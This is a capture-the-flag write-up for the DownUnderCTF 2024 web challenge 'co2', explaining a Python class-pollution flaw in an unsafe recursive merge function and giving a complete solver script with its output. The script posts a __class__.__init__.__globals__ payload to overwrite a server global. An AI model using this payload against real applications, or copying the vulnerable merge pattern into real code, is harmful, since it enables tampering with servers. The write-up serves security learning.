

# DownUnderCTF 2024
## Web - co2
`easy`


## First look
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.
Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution


## Exploit
In the CTF I did manually with burp and just intercept the request and inject it there the payload, but after the CTF ends I wrote a solver script with the steps of the exploit to automate it to the maxinum.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

## Take the flag
And we got the flag!
```shell
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
